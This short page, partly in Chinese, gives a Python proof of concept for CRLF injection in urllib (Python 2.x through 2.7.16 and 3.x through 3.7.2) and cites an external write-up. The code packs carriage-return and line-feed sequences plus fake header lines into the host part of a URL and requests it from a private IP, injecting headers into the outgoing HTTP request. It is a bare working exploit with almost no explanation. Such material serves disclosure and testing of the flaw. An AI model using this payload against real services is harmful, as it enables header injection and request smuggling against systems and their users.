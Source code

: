 （Python 2.x through 2.7.16 and urllib in Python 3.x through 3.7.2.）
参考：
	- https://xz.aliyun.com/t/5123
poc
```python
import sys
import urllib
import urllib.request
import urllib.error


host = "172.27.60.184:7777?a=1 HTTP/1.1\r\nCRLF-injection: test\r\nTEST: 123"
url = "http://"+ host + ":8080/test/?test=a"

try:
    info = urllib.request.urlopen(url).info()
    print(info)

except urllib.error.URLError as e:
    print(e)
```